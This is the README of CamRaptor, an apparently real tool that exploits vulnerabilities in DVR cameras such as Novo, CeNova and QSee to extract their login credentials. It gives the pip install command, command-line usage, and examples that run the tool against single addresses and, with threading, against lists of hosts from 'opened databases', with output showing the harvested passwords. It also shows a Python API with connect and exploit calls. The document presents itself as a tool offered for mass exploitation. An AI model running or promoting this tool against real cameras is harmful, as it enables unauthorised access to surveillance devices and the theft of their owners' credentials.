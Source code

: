 # CamRaptor

CamRaptor is a tool that exploits several vulnerabilities in popular DVR cameras to obtain device credentials.

## Features

* Exploits vulnerabilities in most popular camera models such as `Novo`, `CeNova` and `QSee`.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/CamRaptor
```

## Basic usage

To use CamRaptor just type `camraptor` in your terminal.

```
usage: camraptor [-h] [--threads] [--output OUTPUT] [--input INPUT]
                 [--address ADDRESS]

CamRaptor is a tool that exploits several vulnerabilities in popular DVR
cameras to obtain device credentials.

optional arguments:
  -h, --help         show this help message and exit
  --threads          Use threads for fastest work.
  --output OUTPUT    Output result to file.
  --input INPUT      Input file of addresses.
  --address ADDRESS  Single address.
```

### Examples

Let's hack my camera just for fun.

```shell
camraptor --address 192.168.99.100
```

**output:**

```shell
[*] (192.168.99.100) - connecting to device...
[*] (192.168.99.100) - accessing device rom...
[*] (192.168.99.100) - extracting camera credentials...
[i] (192.168.99.100) - admin:mamahacker123
```

Let's try to use opened database of hosts with `--threads` for fast exploitation.

```shell
camraptor --threads --input cameras.txt --output passwords.txt
```

It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #2 completed.
```

## CamRaptor API

CamRaptor also has their own Python API that can be invoked by importing CamRaptor to your code:

```python
from camraptor import CamRaptor
```

### Basic functions

There are all CamRaptor basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by netword address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from camraptor import CamRaptor

camraptor = CamRaptor()

camera = camraptor.connect('192.168.99.100')
print(camraptor.exploit(camera))
```

**output:**

```shell
'mamahacker123'
```

